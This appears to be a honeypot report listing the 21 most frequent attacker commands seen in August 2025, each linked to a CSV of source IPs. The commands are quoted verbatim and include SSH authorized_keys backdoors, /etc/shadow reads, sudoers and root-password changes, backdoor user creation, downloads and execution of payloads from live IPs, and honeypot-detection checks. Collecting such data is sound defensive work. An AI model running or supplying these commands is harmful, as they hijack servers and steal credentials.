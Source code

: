 # TOP COMMANDS AND THEIR SOURCES
1. cd ~ && rm -rf .ssh && mkdir .ssh && echo \"ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr\">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~

  ->  /2025-08/ip/1.csv

2. cd ~; chattr -ia .ssh; lockr -ia .ssh

   -> /2025-08/ip/2.csv

3. uname -s -v -n -r –m

   -> /2025-08/ip/3.csv

4. ps -ef | grep '[Mm]iner'

   ->  /2025-08/ip/4.csv

5. chmod +x ./.3817918409420141445/sshd;nohup ./.3817918409420141445/sshd 103.145.145.76 77.91.65.117 78.135.85.233 220.181.172.244 154.92.131.155 45.159.189.193 154.211.13.102 170.84.39.236 117.62.201.93 125.88.174.233 111.31.229.233 47.100.121.202 47.94.87.144 154.124.240.229 54.75.66.207 177.44.220.225 125.88.174.215 221.179.57.254 158.51.96.38 110.40.20.55 43.239.110.69 188.166.208.251 103.164.9.41 52.91.199.247 36.163.199.18 212.115.54.22 162.253.132.206 159.203.108.2 45.55.30.94 221.14.147.153 183.221.214.95 180.163.61.238 122.228.62.150 154.221.23.116 115.190.97.236 195.182.25.234 101.91.181.235 113.142.72.13 193.233.252.9 112.171.213.120 43.249.193.101 1.62.252.20 115.68.194.209 47.79.43.177 45.45.239.129 85.133.221.37 182.151.55.219 41.135.81.54 190.123.74.50 117.149.247.143 120.48.32.185 &

  -> /2025-08/ip/5.csv

6.  df -h | head -n 2 | awk 'FNR == 2 {print $2;}

   -> /2025-08/ip/6.csv

7. cat /proc/cpuinfo | grep model | grep name | wc –l

   -> /2025-08/ip/7.csv
8. ls -lh $(which ls)

   -> /2025-08/ip/8.csv

9. free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}

    -> /2025-08/ip/9.csv

10. cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}

    -> /2025-08/ip/10.csv

11. uname -a;id;cat /etc/shadow /etc/passwd;lscpu;echo 'daemon ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers;chsh -s /bin/sh daemon;echo Password123 |passwd daemon --stdin;mkdir ~/.ssh;chattr -ia ~/.ssh/* ~/.ssh;wget http://162.215.218.82/ns1.jpg -O ~/.ssh/authorized_keys;chmod 600 ~/.ssh/authorized_keys;chmod 700 ~/ ~/.ssh;wget http://162.215.218.82/ns3.jpg -O /tmp/x;chmod +x /tmp/x;/tmp/x;mv /tmp/x /tmp/o;/tmp/o;rm -f /tmp/o;mkdir /sbin/.ssh;cp ~/.ssh/authorized_keys /sbin/.ssh;chown daemon.daemon /sbin/.ssh /sbin/.ssh/*;chmod 700 /sbin/.ssh;chmod 600 /sbin/.ssh/authorized_keys;wget http://162.215.218.82/oto -O /etc/oto;chmod 755 /tmp/oto;/tmp/oto;curl http://162.215.218.82/oto -o /tmp/oto;chmod 755 /tmp/oto;/tmp/oto;rm -f /tmp/oto

  -> /2025-08/ip/11.csv

12. ls -la ~/.local/share/TelegramDesktop/tdata /home/*/.local/share/TelegramDesktop/tdata /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*

 -> /2025-08/ip/12.csv

13. chmod +x clean.sh; sh clean.sh; rm -rf clean.sh; chmod +x setup.sh; sh setup.sh; rm -rf setup.sh; mkdir -p ~/.ssh; chattr -ia ~/.ssh/authorized_keys; echo \"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqHrvnL6l7rT/mt1AdgdY9tC1GPK216q0q/7neNVqm7AgvfJIM3ZKniGC3S5x6KOEApk+83GM4IKjCPfq007SvT07qh9AscVxegv66I5yuZTEaDAG6cPXxg3/0oXHTOTvxelgbRrMzfU5SEDAEi8+ByKMefE+pDVALgSTBYhol96hu1GthAMtPAFahqxrvaRR4nL4ijxOsmSLREoAb1lxiX7yvoYLT45/1c5dJdrJrQ60uKyieQ6FieWpO2xF6tzfdmHbiVdSmdw0BiCRwe+fuknZYQxIC1owAj2p5bc+nzVTi3mtBEk9rGpgBnJ1hcEUslEf/zevIcX8+6H7kUMRr rsa-key-20230629\" > ~/.ssh/authorized_keys; chattr +ai ~/.ssh/authorized_keys; uname -a; echo -e \\\x61\\x75\\x74\\x68\\x5F\\x6F\\x6B\\x0A\
 
 -> /2025-08/ip/13.csv

14. rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep;

 -> /2025-08/ip/14.csv

15. echo \"root:voSDzeRvq4C4\"|chpasswd|bash

 -> /2025-08/ip/15.csv

16. uname=$(uname -s -v -n -m 2>/dev/null);; \t\tarch=$(uname -m 2>/dev/null);; \t\tuptime=$(awk '{u=int($1);d=int(u/86400);h=int((u%86400)/3600);m=int((u%3600)/60);s=\"\";if(d>0)s=s d\"d\";if(h>0){if(s!=\"\")s=s\", \";s=s h\"h\"}if(m>0||s==\"\"){if(s!=\"\")s=s\", \";s=s m\"m\"}print s}' /proc/uptime 2>/dev/null);; \t\t[ -z \"$uptime\" ] && secondsStr=$(cat /proc/uptime | cut -d' ' -f1 | cut -d. -f1) && [ -n \"$secondsStr\" ] && seconds=$((secondsStr)) && d=$((seconds/86400)) && h=$(( (seconds%86400)/3600 )) && m=$(( (seconds%3600)/60 )) && uptime=\"\" && [ $d -gt 0 ] && uptime=\"${uptime}${d}d\" && [ $h -gt 0 ] && { [ -n \"$uptime\" ] && uptime=\"$uptime, \"; uptime=\"${uptime}${h}h\"; } && { [ $m -gt 0 ] || [ -z \"$uptime\" ]; } && { [ -n \"$uptime\" ] && uptime=\"$uptime, \"; uptime=\"${uptime}${m}m\"; };; \t\tcpus=$( (nproc || grep -c \"^processor\" /proc/cpuinfo) 2>/dev/null | head -1);; \t\tcpu_model=$( (grep -m1 \"model name\" /proc/cpuinfo | cut -d: -f2 | sed 's/^ //;s/ *$//' || lscpu | grep -m1 \"Model name\" | cut -d: -f2 | sed 's/^ //;s/ *$//') 2>/dev/null);; \t\tgpu_info=$( (lspci | grep -i vga; lspci | grep -i nvidia) 2>/dev/null | head -n5);; \t\tcat_help=$((cat --help 2>&1 | tr '\\n' ' ') || cat --help 2>&1);; \t\tls_help=$((ls --help 2>&1 | tr '\\n' ' ') || ls --help 2>&1);; \t\tlast_output=$((last | tail -n 10) || last);; \t\techo \"UNAME:$uname\";; \t\techo \"ARCH:$arch\";; \t\techo \"UPTIME:$uptime\";; \t\techo \"CPUS:$cpus\";; \t\techo \"CPU_MODEL:$cpu_model\";; \t\techo \"GPU:$gpu_info\";; \t\techo \"CAT_HELP:$cat_help\";; \t\techo \"LS_HELP:$ls_help\";; \t\techo \"LAST:$last_output\";

 -> /2025-08/ip/16.csv

17. cat /proc/uptime | cut -d -f1 | cut -d. -f1

 -> /2025-08/ip/17.csv

18. apt update && apt install sudo curl -y && sudo useradd -m -p $(openssl passwd -1 y5g3uNtj) system && sudo usermod -aG sudo system

 -> /2025-08/ip/18.csv

19. wget http://23.146.184.21/abd.sh; chmod 777 *; sh abd.sh x86

 -> /2025-08/ip/19.csv

20. cpu=$(grep 'model name' /proc/cpuinfo 2>/dev/null || echo \"\"); memtotal=$(grep MemTotal /proc/meminfo 2>/dev/null || echo \"\"); if [ -z \"$cpu\" ] || [ -z \"$memtotal\" ]; then; echo \"honeypot\"; else; echo \"valid\"; fi

 -> /2025-08/ip/20.csv

21. env TERM=dumb bash --noprofile --norc -c ' cpu=$(grep \"model name\" /proc/cpuinfo 2>/dev/null || echo \"\") memtotal=$(grep MemTotal /proc/meminfo 2>/dev/null || echo \"\") if [ -z \"$cpu\" ] || [ -z \"$memtotal\" ]; then echo \"honeypot\" else echo \"valid\" fi’

     -> /2025-08/ip/21.csv

 -> /2025-08/ip/21.csv
 
